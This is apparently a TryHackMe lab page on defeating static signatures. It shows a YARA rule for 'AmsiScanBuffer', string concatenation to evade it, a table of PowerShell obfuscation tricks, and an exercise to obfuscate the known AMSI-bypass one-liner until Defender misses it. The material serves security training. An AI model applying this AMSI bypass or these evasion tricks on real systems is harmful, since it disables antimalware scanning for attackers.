 Below we will observe a static **Yara** rule and attempt to use concatenation to evade the static signature.

```powershell
rule ExampleRule
{
    strings:
        $text_string = "AmsiScanBuffer"
        $hex_string = { B8 57 00 07 80 C3 }

    condition:
        $my_text_string or $my_hex_string
}
```

When a compiled binary is scanned with Yara, it will create a positive alert/detection if the defined string is present. Using concatenation, the string can be functionally the same but will appear as two independent strings when scanned, resulting in no alerts.

```powershell
IntPtr ASBPtr = GetProcAddress(TargetDLL, "AmsiScanBuffer"); 
```

![down arrow](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/c033d156dae21c3683c5034fe031a452.png)  

```powershell
IntPtr ASBPtr = GetProcAddress(TargetDLL, "Amsi" + "Scan" + "Buffer"); 
```

If the second code block were to be scanned with the Yara rule, there would be no alerts!

---

Extending from concatenation, attackers can also use **non-interpreted characters** to disrupt or confuse a static signature. These can be used independently or with concatenation, depending on the strength/implementation of the signature. Below is a table of some common non-interpreted characters that we can leverage.

|   |   |   |
|---|---|---|
|**Character  <br>**|**Purpose  <br>**|**Example**|
|Breaks|Break a single string into multiple sub strings and combine them|`('co'+'ffe'+'e')`|
|Reorders|Reorder a string’s components|`('{1}{0}'-f'ffee','co')`|
|Whitespace|Include white space that is not interpreted|`.( 'Ne' +'w-Ob' + 'ject')`|
|Ticks|Include ticks that are not interpreted|``d`own`LoAd`Stri`ng``|
|Random Case|Tokens are generally not case sensitive and can be any arbitrary case|`dOwnLoAdsTRing`|

---

Using the knowledge you have accrued throughout this task, obfuscate the following PowerShell snippet until it evades Defender’s detections.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
